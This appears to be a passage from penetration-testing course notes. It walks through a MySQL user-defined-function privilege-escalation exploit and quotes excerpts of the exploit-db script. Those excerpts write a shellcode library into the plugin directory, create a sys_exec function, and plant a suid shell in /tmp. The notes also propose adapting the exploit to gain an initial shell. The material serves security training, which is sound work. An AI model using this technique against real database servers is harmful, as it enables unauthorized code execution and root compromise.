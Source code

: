 -    **We notice that the words “UDF” and “User Defined” show up often.**

-    Let’s take a look at a more recent UDF exploit found in **/usr/share/exploitdb/exploits/linux/local/46249.py**.

```bash
1 # Exploit Title: MySQL User-Defined (Linux) x32 / x86\_64 sys\_exec function local pr  
ivilege escalation exploit  
2 # Date: 24/01/2019  
3 ...  
19 References:  
20 https://dev.mysql.com/doc/refman/5.5/en/create-function-udf.html  
21 https://www.exploit-db.com/exploits/1518  
22 https://www.exploit-db.com/papers/44139/ - MySQL UDF Exploitation by Osanda Malith  
Jayathissa (@OsandaMalith)
```

-    The exploit begins by referencing other research into UDF exploitation including a paper written on the subject.

-    Reviewing this paper teaches us that a User Defined Function (UDF) is similar to a custom plugin for MySQL.

-    It allows database administrators to create custom repeatable functions to accomplish specific objectives.

-    Conveniently for us, UDFs are written in C or C++ 731 and can run almost anycode we want, including system commands.

-    Researchers have discovered how to use standard MySQL (and MariaDB) functionality to create these plugins in ways that can be used to exploit systems.

-    This specific exploit discusses using UDFs as ways to escalate privileges on a host.
-    However, we should be able to use the same principle to get an initial shell.
-    Some modifications will be required but before we start changing anything, let’s take a look at the code

```bash
40 shellcode_x32 = "7f454c4601010100000000000000000...";
41 shellcode_x64 = "7f454c4602010100000000000000000...";
42
43 shellcode = shellcode_x32
44 if (platform.architecture()[0] == '64bit'):
45 shellcode = shellcode_x64
...
71 cmd='mysql -u root -p\'' + password + '\' -e "select @@plugin_dir \G"'
72 plugin_str = subprocess.check_output(cmd, shell=True)
73 plugin_dir = re.search('@plugin_dir: (\S*)', plugin_str)
74 res = bool(plugin_dir)
...
91 print "Trying to create a udf library...";
92 os.system('mysql -u root -p\'' + password + '\' -e "select binary 0x' + shellcode
+ ' into dumpfile \'%s\' \G"' % udf_outfile)
93 res = os.path.isfile(udf_outfile)
...
99 print "UDF library crated successfully: %s" % udf_outfile;
100 print "Trying to create sys_exec..."
101 os.system('mysql -u root -p\'' + password + '\' -e "create function sys_exec retu
rns int soname \'%s\'\G"' % udf_filename)
102
103 print "Checking if sys_exec was crated..."
104 cmd='mysql -u root -p\'' + password + '\' -e "select * from mysql.func where name
=\'sys_exec\' \G"';
105 res = subprocess.check_output(cmd, shell=True);
...
110 if res:
111 print "sys_exec was found: %s" % res
112 print "Generating a suid binary in /tmp/sh..."
```